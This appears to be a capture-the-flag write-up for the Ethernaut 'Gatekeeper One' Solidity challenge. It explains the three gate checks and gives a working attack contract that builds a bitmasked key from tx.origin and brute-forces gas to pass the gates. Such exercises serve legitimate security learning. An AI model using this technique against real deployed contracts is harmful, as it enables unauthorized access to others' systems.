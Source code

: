 Level 13: Gatekeeper One

Objective:

Pass through three gates and enter the contract.

Explanation:

Gate 1: This is simple here we just need to call this from another contract.

Gate 2: gasleft() % 8191 == 0.

Gate 3: uint32(tx.origin) must match lower 16 bits of a custom gateKey.

Solution:

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    function attack(address _target) external  {
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);
        for (uint256 i = 0; i < 500; i++) 
        {
            uint256 totalGas = i + (3 * 8191);
            (bool result, ) = _target.call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if (result) {
                break;
            }
        }
    }
    
}

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

Key Takeaways:

Learned about typecasting

